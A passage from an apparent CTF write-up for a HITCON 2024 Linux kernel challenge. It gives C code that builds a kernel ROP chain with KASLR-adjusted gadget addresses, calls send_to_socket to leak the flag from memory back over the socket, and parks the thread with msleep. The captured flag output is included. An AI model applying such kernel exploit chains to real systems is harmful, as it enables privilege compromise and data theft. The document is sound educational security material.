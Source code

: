 Once we've successfully pivoted the stack to `payload_addr`, we can execute arbitrary ROP chain. Given that `/flag` is stored in memory due to the use of ramfs, the next step is to call `send_to_socket(socket, flag_addr, length)`, sending the flag back through the current socket connection.

To execute the `send_to_socket()` function, the first parameter needs to be the `socket` object of the current connection, which is stored in `rbp` when we control the `rip`. Therefore, the ROP chain will move the address of the `socket` object from `rbp` into `rdi`.

```c
// rbp is the address of socket object
*(unsigned long *)(payload + i) = KASLR(0xffffffff8102314a); i += 8;
*(unsigned long *)(payload + i) = 0;                         i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff81002ce7); i += 8;
*(unsigned long *)(payload + i) = payload_addr + 0x30;       i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff8106930f); i += 8;
*(unsigned long *)(payload + i) = 0;                         i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff817893fb); i += 8;
```

Next, we obtain the address near the flag from the global variable `static_command_line`. By subtracting a fixed offset, we can calculate the memory range that contains the flag's content.

```c
*(unsigned long *)(payload + i) = KASLR(0xffffffff81001970);  i += 8;
*(unsigned long *)(payload + i) = KASLR(static_command_line); i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff810664d0);  i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff810fc69e);  i += 8;
*(unsigned long *)(payload + i) = flag_offset;                i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff810ec2ad);  i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff8104657b);  i += 8;
```

Finally, set the data size to `0x10000` and call `send_to_socket()` to send the flag back.

```c
*(unsigned long *)(payload + i) = KASLR(0xffffffff810fc69e); i += 8;
*(unsigned long *)(payload + i) = 0x10000;                   i += 8;
*(unsigned long *)(payload + i) = send_to_socket;            i += 8;
```

To avoid any side effects from a kernel panic, I decide to execute `msleep(10000000)` after sending data, ensuring that the corrupted kernel thread does not continue executing.

```c
*(unsigned long *)(payload + i) = KASLR(0xffffffff81001bac); i += 8;
*(unsigned long *)(payload + i) = 10000000;                  i += 8;
*(unsigned long *)(payload + i) = KASLR(0xffffffff810e42b0); i += 8;
```

Once the race condition succeeds, the client's socket will receive an unusually large amount of data, which includes the flag.

```
pk@pk:~/2024_hitcon_chal/linux-6.6.32$ cat /tmp/output | grep --text -i hitcon
hitcon{H4PPY_h4lloW33n_edf8377563f7fa2897df6aa434ad305e}
```

### 4. Unintended Solution
